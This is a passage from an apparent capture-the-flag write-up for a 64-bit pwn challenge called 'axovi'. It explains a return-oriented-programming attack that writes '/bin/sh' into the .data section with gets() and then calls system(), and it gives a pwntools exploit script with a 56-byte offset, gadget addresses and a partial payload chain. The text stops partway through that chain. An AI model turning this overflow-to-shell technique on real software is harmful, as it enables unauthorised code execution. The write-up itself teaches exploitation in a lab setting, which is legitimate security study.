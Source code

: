 So we can get a writable section of the binary preferably `.data` and put `/bin/sh` into it therefore ropping to `system()`

I used rabin2 to get the .data section address
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c490cf43-9c6e-4b05-b575-f24c95fec3f7)

Also we would need a pop rdi gadget since x64 argument are passed in via registers
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b7413529-5ff9-4fd2-bf30-4269740046bf)

Now that it is settled here's what I'll do:
- Call gets() and our input will be stored in .data
- Call system(.data)

Here's my exploit [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/battlectf23/prequal/pwn/axovi/solve.py)

```python
#!/usr/bin/python3
from pwn import *
import warnings

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './axovi'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'
warnings.filterwarnings("ignore", category=BytesWarning, message="Text is not bytes; assuming ASCII, no guarantees.")

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

offset = 56

data = 0x000000000404028 # data section
pop_rdi = 0x00000000004011bb # pop rdi; ret;

payload = flat({
    offset: [
        pop_rdi,
        data,
        elf.plt['gets'],
        pop_rdi,
        data,
        elf.plt['system']
```